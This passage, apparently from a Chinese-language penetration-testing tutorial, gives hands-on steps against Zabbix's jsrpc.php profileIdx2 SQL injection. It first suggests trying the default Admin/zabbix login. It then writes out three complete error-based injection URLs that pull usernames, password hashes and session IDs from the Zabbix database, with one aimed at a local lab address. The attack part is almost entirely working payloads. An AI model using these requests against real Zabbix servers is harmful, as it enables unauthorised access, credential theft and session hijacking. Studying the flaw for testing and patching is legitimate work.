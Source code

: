 输出结果，若包含：You have an error in your SQL syntax;表示漏洞存在。

**实操：**

zabbix 默认账户Admin密码zabbix，可以先尝试一波弱口令可能有意外收获。如果不行可以利用jsrpc的profileIdx2参数sql注入，具体操作如下：

-   获取用户名

```plain
jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=profileldx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,name,0x7e)%20as%20char),0x7e))%20from%20zabbix.users%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17
```

[![](assets/1698897433-87e19ada71015f8f3f189ec4be168a68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129181123-98a231c8-1290-1.png)

-   获取密码

```plain
jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=profileldx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,passwd,0x7e)%20as%20char),0x7e))%20from%20zabbix.users%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17
```

[![](assets/1698897433-97491557c35ce9ec68a97e42aaaa2087.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129181123-98e2263e-1290-1.png)

-   获取sessionid

```plain
http://192.168.10.131/zabbix/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=profileldx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,sessionid,0x7e)%20as%20char),0x7e))%20from%20zabbix.sessions%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17
```
